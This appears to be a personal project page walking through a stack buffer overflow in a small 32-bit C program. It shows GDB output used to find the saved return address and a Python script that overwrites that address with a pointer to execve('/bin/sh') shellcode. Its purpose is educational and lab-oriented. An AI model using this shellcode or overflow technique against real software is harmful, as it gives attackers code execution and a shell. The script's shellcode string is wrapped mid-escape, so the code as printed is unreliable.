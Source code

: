 ```yaml
---
layout: page
title: Memory Exploitation
subtitle: Buffer overflow in C
category: sec
---
```


This project examines one of the memory vulnerabilities - buffer overflow  in *C* and presents ways in which it can be exploited. Its main idea is to overwrite the Return Instruction Pointer ($**rip**) so that the program executes our shellcode instead of the originally intended instruction. The files for this project can be found [here]().

### Background

### Determining the address of RIP

The address of the $**rip** can be found by running `info frame` in [GDB](), while the offset of $**rip** from the beginning of the buffer can be determined by running the command `x/32x`. The `x/Px &buffer` command allows one to view `P` chunks of memory starting at `buffer`.

Here's a sample output after running `info frame`. 

```
GDB Output:
(gdb) info frame
 Stack level 0, frame at 0xbffffe00:
  eip = 0x8048412 in deja_vu (dejavu.c:7); saved eip 0x804842a
  called by frame at 0xbffffe10
  source language c.
  Arglist at 0xbffffdf8, args:
  Locals at 0xbffffdf8, Previous frame's sp is 0xbffffe00
  Saved registers:
   ebp at 0xbffffdf8, eip at 0xbffffdfc
```

Note that the `saved eip` is the value of $**rip** and after taking into account its offset from the beginning of the buffer we're trying to overflow, we find that the address of the register in memory is `0xbffffdfc`, as follows:

```
(gdb) x/32x &door
0xbffffde8:     0xbffffeac      0xb7e5f225      0xb7fed270      0x00000000
0xbffffdf8:     0xbffffe08      0x0804842a      0x08048440      0x00000000
0xbffffe08:     0x00000000      0xb7e454d3      0x00000001      0xbffffea4
0xbffffe18:     0xbffffeac      0xb7fdc858      0x00000000      0xbffffe1c
0xbffffe28:     0xbffffeac      0x00000000      0x0804821c      0xb7fd2000
0xbffffe38:     0x00000000      0x00000000      0x00000000      0xf09febf0
0xbffffe48:     0xc7caefe0      0x00000000      0x00000000      0x00000000
0xbffffe58:     0x00000001      0x08048320      0x00000000      0xb7ff26a0
```

We then proceed and run a python script that overwrites the buffer with that address (although it really doesn't matter what we fill the buffer with), followed by the address of where the shellcode is then being injected.

The script looks something like so: 

```python
#!/usr/bin/env python

shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0
b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xd
c\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

print(5 * "\xfc\xfd\xff\xbf" + "\x00\xfe\xff\xbf" + shellcode)
```